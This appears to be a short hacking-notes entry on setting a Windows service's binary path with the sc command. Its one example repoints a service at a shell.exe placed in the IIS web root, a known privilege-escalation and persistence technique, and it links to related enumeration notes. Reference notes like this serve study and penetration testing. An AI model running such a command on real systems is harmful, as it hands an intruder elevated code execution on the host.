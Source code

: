 # dos commands services sc set binary path
sc config SVC_NAME binpath= "c:\inetpub\shell.exe"

` zet/20221003151113/README.md `

# Related

- [20221003151115](/zet/20221003151115/README.md) dos commands services sc
- ~/kb/hacking/windows/dos-and-powershell-enumeration-quick.md

Tags:

    #hacking #windows #dos 
